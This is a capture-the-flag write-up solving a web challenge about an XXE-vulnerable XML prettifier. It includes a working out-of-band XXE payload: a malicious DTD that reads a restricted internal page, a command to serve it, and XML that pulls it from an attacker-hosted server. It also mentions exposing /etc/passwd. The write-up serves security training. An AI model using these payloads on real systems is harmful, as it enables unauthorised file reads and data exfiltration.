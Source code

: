 #### Challenge:

Hi, packet inspector,

some former employe of Mysterious Delivery Ltd. has created prettifier for XML code. It is polite to provide information to the AI in nicely formatted XML, isn't it? Rumors say that the employee also left some crucial information somewhere on the web.

Find the crucial information on webpage [http://prettifier.mysterious-delivery.tcc:50000
](http://prettifier.mysterious-delivery.tcc:50000).

May the Packet be with you!

---

#### Solution:

- playing with the portal reveals that flag is hidden at `/notes` sub-page, but its access is restricted. However, the `xml` service seems to be vulnerable to `XXE` attacks as we can easily expose `/etc/passwd` file.
- trying to expose the actual `html` content doesn't work, as it doesn't satisfy the `xml` schema, thus we need to use something more sophisticated. Here comes into play the [XXE - DTD](https://phonexicum.github.io/infosec/xxe.html#dtd-attack-vectors) exploit, that allows us to dump the `/notes` contents with help of out local server


- prepare the `dtd` payload for local `http` server
`evil.dtd`
```xml
<!ENTITY % file SYSTEM "http://localhost:50000/notes">
<!ENTITY % start "<![CDATA[">
<!ENTITY % end "]]>">
<!ENTITY % all "<!ENTITY fileContents '%start;%file;%end;'>">
```

- serve the local files that will be used for exploit
```bash
python3 -m http.server --directory .
```

```xml
<!DOCTYPE data [
  <!ENTITY % dtd SYSTEM
  "http://10.200.0.53:8000/evil.dtd">
  %dtd;
  %all;
]>
<data>&fileContents;</data>
```

---

<details><summary>FLAG:</summary>

```
FLAG{GG53-5U3w-VT8F-qB31}
```

</details>
<br/>
